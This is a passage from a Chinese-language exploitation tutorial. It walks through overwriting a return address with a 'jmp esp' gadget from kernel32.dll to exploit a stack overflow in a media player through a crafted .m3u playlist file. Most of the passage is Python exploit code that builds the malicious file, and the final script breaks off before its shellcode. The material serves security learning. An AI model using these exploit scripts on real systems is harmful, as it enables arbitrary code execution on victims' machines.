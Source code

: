 无论如何，我们的esp可用，那么只需要找到一条稳定的”jmp esp“指令的地址，覆盖ret addr，就可以达成这样一个效果：

![](/images/180624_13.png)

而jmp esp的地址我们可以通过mona插件的`jmp -r esp -m kernel32.dll`来查找。选择kernel32.dll是因为它比较稳定，这个dll会被所有用户态应用程序加载，且基址固定（系统未开启ASLR，就算开启了ASLR，这个地址在重启前也都是固定的（受限于Windows DLL加载的设计），方便调试）。除了kernel32.dll，user32.dll也经常作为选择。

> 如果发现该命令很慢，别急，观察一下symbols文件夹，是否windbg正在大量下载符号表。首次会比较慢。

在kernel32.dll中随便找到一个"jmp esp"指令，把地址填充到exp的ret字段中：

![](/images/180624_14.png)

我们用0x762a4ebf覆盖ret addr，shellcode先暂时设置成"\xcc"，也就是'int 3'指令。

再次测试，程序确实如预期跳到了栈上的shellcode起始字节处开始执行(当前是int 3)：

![](/images/180624_15.png)

半成品exp：

```python
#!/usr/bin/python
import sys

header = "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46" 
header += "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F"
header += "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20"
header += "\x0D\x0A\x44\x3A\x5C"

junk = "\x41"*26105
ebp = "\x42\x42\x42\x42"
ret = "\xbf\x4e\x2a\x76"
shellcode = "\x90" * 4 + "\xcc"

payload = header + junk + ebp + ret + shellcode

if len(sys.argv) < 2:
    print 'usage: python ' + sys.argv[0] +' name.m3u'
else:
    with open(sys.argv[1],"w") as f:
        f.write(payload)
```

我测试了一下reporter提供的shellcode，但这段弹出calc的字节码是不兼容的。那么如何自己编写一段shellcode呢？实际上shellcode的生成并不难，也有很多现成的工具来自动生成（比如最为强大的msf可以自定义生成，将简答题变成填空题）。

shellcode这一部分将有单独的几篇文章来讲解，而本文旨在阐释经典栈溢出的利用手法，shellcode相关也就点到为止。

## 后记

为了视频教程需要，补上一段弹出calc的shellcode利用。

最终的exp:

```python
#!/usr/bin/python
import sys

header = "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46" 
header += "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F"
header += "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20"
header += "\x0D\x0A\x44\x3A\x5C"

junk = "\x41"*26105
ebp = "\x42\x42\x42\x42"
ret = "\xcb\x31\x10\x76" # 这里这个值和前面的不一样是因为我重启了虚拟机，此前的忘记做快照了:(

```